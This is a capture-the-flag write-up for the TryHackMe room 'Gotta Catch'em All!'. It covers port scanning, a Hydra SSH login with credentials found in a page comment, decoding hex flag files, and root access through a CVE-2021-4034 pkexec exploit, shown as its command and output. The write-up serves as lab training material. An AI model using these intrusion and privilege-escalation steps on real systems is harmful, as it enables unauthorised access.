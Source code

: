 ```yaml
---
title: "Gotta Catchem All"
date: 2025-02-11
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Gotta Catchem All
categories: [TryHackMe, Easy]
tags: [linux, pkexec]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Gotta Catch'em All!</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>This room is based on the original Pokemon series. Can you obtain all the Pokemon in this room?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/pokemon">https://tryhackme.com/room/pokemon</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Gotta Catch'em All!.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.142.177
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:54 EDT
Nmap scan report for 10.10.142.177
Host is up (0.044s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 46.07 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.142.177
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:55 EDT
Nmap scan report for 10.10.142.177
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:14:75:69:1e:a9:59:5f:b2:3a:69:1c:6c:78:5c:27 (RSA)
|   256 23:f5:fb:e7:57:c2:a5:3e:c2:26:29:0e:74:db:37:c2 (ECDSA)
|_  256 f1:9b:b5:8a:b9:29:aa:b6:aa:a2:52:4a:6e:65:95:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Can You Find Them All?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.88 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The web server displayed the Apache2 default web page. I began by analyzing the source code, where one comment caught my attention:
```html
  <pokemon>:<h[removed]n>
  <!--(Check console for extra surprise!)-->
```

Before proceeding with the first string, I opened the console, and the following list of Pokémon's where displayed:
```text
Bulbasaur 
Charmander 
Squirtle 
Snorlax 
Zapdos
Mew
Charizard 
Grimer
Metapod
Magikarp 
```

At this point, I wasn't sure if the list of Pokémon's was something like a username or password list. I began testing combinations using Hydra and got a match:
```bash   
$ hydra -l 'pokemon' -p 'h[removed]n' ssh://10.10.142.177         
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 11:09:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://10.10.142.177:22/
[22][ssh] host: 10.10.142.177   login: pokemon   password: h[removed]n
```

Since I found a valid credential combination, I was able to connect via SSH:
```bash
kali@kali:~/ctf/pokemon$ ssh pokemon@10.10.142.177

pokemon@root:~$ 
```

I continued by enumerating the system and found an interesting ZIP archive. After unzipping it, I discoverd an interesting file:
```bash
pokemon@root:~Desktop$ ls
  P0kEmOn.zip
pokemon@root:~/Desktop$ unzip P0kEmOn.zip 
Archive:  P0kEmOn.zip
   creating: P0kEmOn/
  inflating: P0kEmOn/grass-type.txt  
pokemon@root:~/Desktop$ ls
  P0kEmOn  P0kEmOn.zip
pokemon@root:~/Desktop$ cd P0kEmOn/
pokemon@root:~/Desktop/P0kEmOn$ ls
  grass-type.txt
pokemon@root:~/Desktop/P0kEmOn$ cat grass-type.txt
  50 6f 4b [removed] 75 72 7d
```

It appears to contain hex values, so I pasted the string into CyberChef and was able to decode it:

![Decoding Grass Type](/assets/img/tryhackme/Pokemon/thm_pokemon_1.jpg)

I continued enumerating the system and found another file with the same naming pattern as the previous one:
```bash
pokemon@root:/var/www/html$ ls
  index.html  water-type.txt
pokemon@root:/var/www/html$ cat water-type.txt 
  E[removed]}
```

![Decoding Water Type](/assets/img/tryhackme/Pokemon/thm_pokemon_2.jpg)

Since the second file followed the same naming pattern as the first, I tried to search for another Pokémon type:
```bash
pokemon@root:/var/www/html$ locate fire-type.txt
  /etc/why_am_i_here?/fire-type.txt
```

![Decoding Fire Type](/assets/img/tryhackme/Pokemon/thm_pokemon_3.jpg)

## Privilege Escalation root

I continued by checking for SUID bits and discoverd that pkexec had its SUID bit set. I used the exploit described in CVE-2021-4034 and successfully gained root access:
```bash
pokemon@root:~$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
pokemon@root:~$ python3 exploit.py 
Do you want to choose a custom payload? y/n (n use default payload) n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7fa8a2e7f4e8 at 0x7fa8a2d13668>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
  root
# cd /root
# cat roots-pokemon.txt
  P[removed]!
```

solved! :)